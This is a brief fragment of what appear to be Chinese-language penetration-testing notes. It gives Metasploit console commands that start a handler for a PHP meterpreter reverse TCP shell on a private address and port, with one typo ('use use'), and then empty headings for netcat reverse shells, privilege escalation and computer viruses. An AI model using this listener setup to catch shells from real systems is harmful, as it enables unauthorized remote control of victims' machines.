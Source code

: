 ```
监听
```
msfconsole
use use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lhost 192.168.64.128 
set lport 2233
exploit
```
#### nc反弹shell
## 提权提升
## 计算机病毒
